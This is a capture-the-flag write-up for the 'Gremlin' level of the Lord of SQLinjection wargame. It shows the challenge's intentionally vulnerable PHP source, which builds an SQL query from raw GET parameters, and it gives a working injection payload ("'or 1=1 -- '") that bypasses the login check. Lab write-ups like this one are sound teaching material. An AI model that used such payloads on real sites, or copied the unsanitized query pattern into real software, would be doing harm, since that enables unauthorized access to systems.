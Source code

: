 # **1.Gremlin**

Let's get to this challenge by search `Lord of SQLinjection`.

If you can't find it, try the url below:
[los.eagle-jump](https://los.eagle-jump.org/)

It seems the child CTF web site of **Stereotyped Challenges**, but more eazier(?), perhaps that......

![](https://i.imgur.com/4m2s13Q.png)

First, this is start page, sign up and login.

![](https://i.imgur.com/053mwSv.png)

After you login, you'll redirect to this page.

Press the first monster, Gremlin.

Then you'll find source code below.

```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?> 
```

Make `$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";` be `True` from return error, then you'll pass it.

For this kind of SQL question, that's use the basic startup the try it, `' or 1=1 --`.

However, it failed.

This is the Basic question, we just like living in the world of "[Goblin Slayer](https://en.wikipedia.org/wiki/Goblin_Slayer)".

The weaker, the trickier.

The bug always to be comma missing, LOL.

Here is the thing, I found that command symbols between SQL and MySQL are a little bit different from each others.

In [SQL](https://docs.microsoft.com/zh-tw/sql/t-sql/language-elements/comment-transact-sql), it use `--%20`, two minus with one space.

But in [MySQL](https://dev.mysql.com/doc/refman/5.7/en/mysqldump-sql-format.html), it just use two minus, `--`.

And there's one more thing should be noticed, the space without quot, `'`, it will be ignored while during transaction.

So, to this question, the payload should be 
```
?id=%27or%201=1%20--%20%27
```
```
?id='or 1=1 -- '
```

![](https://i.imgur.com/aLHNXax.png)

Append it to the url, then you pass it.

※Old version **Hackbar** is down now, please get a new  alternaives.
